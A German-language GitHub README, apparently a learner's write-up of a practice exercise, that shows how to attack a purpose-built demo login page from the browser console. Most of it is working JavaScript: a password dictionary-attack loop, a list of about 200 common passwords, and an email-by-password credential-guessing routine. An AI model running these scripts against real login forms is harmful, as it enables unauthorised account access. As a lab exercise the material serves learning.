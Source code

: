 ### Login Hacken mti JavaScript
---
#### Ablauf
- Mit diesem Video habe ich meine Hacker Kompentenzen Aufgebaut. [Video](https://www.youtube.com/watch?v=PvUArQNe3LA)
  <br>
- Damit wir das Gelernte umsetzen können, versuchen wir auf einer Website, die genau für Passwort und E-Mail Hecken Programmiert wurde, all diese Codes aus: [Website](https://junusergin.github.io/hackme-part2/login.html)
  <br>
- Die benötigten Ressourcen um zu hacken, finde ich auf diesem Repository. [Github](https://github.com/JunusErgin/hackme-part2)

<br>


 ---

#### Mein Vorgehen
  1. Ich schaute das Video und probierte selber aus. Dazu habe ich mir einige Notizen gemacht. Mir wurde beigebracht wie ein Hacker denkt und was es für möglichkeiten gibt ein Passwort zu hacken, wie z.B die schnelle und die langsamere (aufwendigere) Art funktioniert.

  <br>
     - Die schnelle variante wäre sich eine Liste mit höffig benutzten Passwörter zu kopieren und mit einer Funktion schnell ausführen zu können.
  <br>

  **Funktion:**

~~~ javascript
let index = 1;
function tryCombinations(combinations) {
    console.log('Trying Password', combinations[index]);
    password.type = 'text';
    password.value = combinations[index];
    loginButton.click();
    index++;
    if (index < combinations.length) {
        setTimeout(tryCombinations, 500, combinations);
    }
}

~~~

**Passwörter:**

~~~ javascript
let dictionary = [123456, 123456789, 12345, "qwerty", "password", 12345678, 111111, 123123, 1234567890, 1234567, "qwerty123", "000000", "1q2w3e", "aa12345678", "abc123", "password1", 1234, "qwertyuiop", 123321, "password123", "1q2w3e4r5t", "iloveyou", 654321, 666666, 987654321, 123, "123456a", "qwe123", "1q2w3e4r", 7777777, "1qaz2wsx", "123qwe", "zxcvbnm", 121212, "asdasd", "a123456", 555555, "dragon", 112233, 123123123, "monkey", 11111111, "qazwsx", 159753, "asdfghjkl", 222222, "1234qwer", "qwerty1", 123654, "123abc", "asdfgh", 777777, "aaaaaa", "myspace1", 88888888, "fuckyou", "123456789a", 999999, 888888, "football", "princess", 789456123, 147258369, 1111111, "sunshine", "michael", "computer", "qwer1234", "daniel", 789456, 11111, "abcd1234", "q1w2e3r4", "shadow", 159357, "123456q", 1111, "samsung", "killer", "asd123", "superman", "master", "12345a", "azerty", "zxcvbn", "qazwsxedc", 131313, "ashley", "target123", 987654, "baseball", "qwert", "asdasd123", "qwerty", "soccer", "charlie", "qweasdzxc", "tinkle", "jessica", "q1w2e3r4t5", "asdf", "test1", "1g2w3e4r", "gwerty123", "zag12wsx", "gwerty", 147258, 12341234, "qweqwe", "jordan", "pokemon", "q1w2e3r4t5y6", 12345678910, 1111111111, 12344321, "thomas", "love", "12qwaszx", 102030, "welcome", "liverpool", "iloveyou1", "michelle", 101010, 1234561, "hello", "andrew", "a123456789", "a12345", "Status", "fuckyou1", "1qaz2wsx3edc", "hunter", "princess1", "naruto", "justin", "jennifer", "qwerty12", "qweasd", "anthony", "andrea", "joshua", "asdf1234", "12345qwert", "1qazxsw2", "marina", "love123", 111222, "robert", 10203, "nicole", "letmein", "football1", "secret", 1234554321, "freedom", "michael1", 11223344, "qqqqqq", 123654789, "chocolate", "12345q", "internet", "q1w2e3", "google", "starwars", "mynoob", "qwertyui", 55555, "qwertyu", "lol123", "lovely", "monkey1", "nikita", "pakistan", 7758521, 87654321, 147852, "jordan23", 212121, 123789, 147852369, "123456789q", "qwe", "forever", 741852963, "123qweasd", "123456abc", "1q2w3e4r5t6y", "qazxsw", 456789, 232323, 999999999, "qwerty12345", "qwaszx", 1234567891, 456123, 444444, "qq123456", "xxx"];
~~~

**Der Ausführung befehl**

~~~ javascript
tryCombinations(dictionary)
~~~

<br>

  - Die langsame Art wäre jede einezelne Kompination von ein stelligen Zahlen/Buchstaben aufzuschreiben und ausprobieren. Die sogenannte 

**Brute Force**.

![Bruteforce](images/bruteforce.jpg)

<br>

**Das alles kann ich mit Rechtsklick dann auf Untersuchen und auf das Feld aufdem Konsole steht selber einfügen und ausprobieren!**
1. Jetzt gibt es noch ein Login, die eine E-Mail benötigt. Um an die E-Mail drann zu kommen gehe ich auf [Github](https://github.com/JunusErgin/hackme-part2). Der Vorgang bleibt ähnlich wie beim Passwort hacken, nur das die Funktion anderst ist. Zuerst kommen die Passwörter, danach die E-Mails und zuletzt die Funktion mit dem Ausführendem Befehl. **Eine E-Mail wird mit allen Passwörter getestet.**

**Passwörter:**

~~~ javascript
let dictionary = [123456, 123456789, 12345, "qwerty", "password", 12345678, 111111, 123123, 1234567890, 1234567, "qwerty123", "000000", "1q2w3e", "aa12345678", "abc123", "password1", 1234, "qwertyuiop", 123321, "password123", "1q2w3e4r5t", "iloveyou", 654321, 666666, 987654321, 123, "123456a", "qwe123", "1q2w3e4r", 7777777, "1qaz2wsx", "123qwe", "zxcvbnm", 121212, "asdasd", "a123456", 555555, "dragon", 112233, 123123123, "monkey", 11111111, "qazwsx", 159753, "asdfghjkl", 222222, "1234qwer", "qwerty1", 123654, "123abc", "asdfgh", 777777, "aaaaaa", "myspace1", 88888888, "fuckyou", "123456789a", 999999, 888888, "football", "princess", 789456123, 147258369, 1111111, "sunshine", "michael", "computer", "qwer1234", "daniel", 789456, 11111, "abcd1234", "q1w2e3r4", "shadow", 159357, "123456q", 1111, "samsung", "killer", "asd123", "superman", "master", "12345a", "azerty", "zxcvbn", "qazwsxedc", 131313, "ashley", "target123", 987654, "baseball", "qwert", "asdasd123", "qwerty", "soccer", "charlie", "qweasdzxc", "tinkle", "jessica", "q1w2e3r4t5", "asdf", "test1", "1g2w3e4r", "gwerty123", "zag12wsx", "gwerty", 147258, 12341234, "qweqwe", "jordan", "pokemon", "q1w2e3r4t5y6", 12345678910, 1111111111, 12344321, "thomas", "love", "12qwaszx", 102030, "welcome", "liverpool", "iloveyou1", "michelle", 101010, 1234561, "hello", "andrew", "a123456789", "a12345", "Status", "fuckyou1", "1qaz2wsx3edc", "hunter", "princess1", "naruto", "justin", "jennifer", "qwerty12", "qweasd", "anthony", "andrea", "joshua", "asdf1234", "12345qwert", "1qazxsw2", "marina", "love123", 111222, "robert", 10203, "nicole", "letmein", "football1", "secret", 1234554321, "freedom", "michael1", 11223344, "qqqqqq", 123654789, "chocolate", "12345q", "internet", "q1w2e3", "google", "starwars", "mynoob", "qwertyui", 55555, "qwertyu", "lol123", "lovely", "monkey1", "nikita", "pakistan", 7758521, 87654321, 147852, "jordan23", 212121, 123789, 147852369, "123456789q", "qwe", "forever", 741852963, "123qweasd", "123456abc", "1q2w3e4r5t6y", "qazxsw", 456789, 232323, 999999999, "qwerty12345", "qwaszx", 1234567891, 456123, 444444, "qq123456", "xxx"];
~~~

**E-Mails**

~~~Javascript
let emails = [
    'albert.einstein@hacker-email.com',
    'grace.hopper@hacker-email.com',
    'marie.curie@hacker-email.com',
    'konrad.zuse@hacker-email.com',
    'stephanie-kwolek@hacker-email.com',
    'carl-friedrich.gauss@hacker-email.com',
    'shirley-ann.jackson@hacker-email.com',
    'gertrude-belle.elion@hacker-email.com',
    'steve.wozniak@hacker-email.com',
    'rudolf.bayer@hacker-email.com',
    'ada.lovelace@hacker-email.com'
];
~~~

**Funktion**

~~~Javascript
function emailDictionaryAttack(i, j) { // i = 0; j = 0
    console.log('Testing', emails[i], dictionary[j]);
    password.type = 'text';
    username.value = emails[i];
    password.value = dictionary[j];
    loginButton.click();
    j++;
    if (j >= dictionary.length) {
        i++;
        j = 0;
    }
    if (i < emails.length || j < dictionary.length) {
        setTimeout(emailDictionaryAttack, 20, i, j);
    }
}
~~~

**Der Ausführ Befehl**

~~~Javascript
emailDictionaryAttack(0, 0)
~~~

<br>

**Das alles kann ich mit Rechtsklick dann auf Untersuchen und auf das Feld aufdem Konsole steht selber einfügen und ausprobieren!**
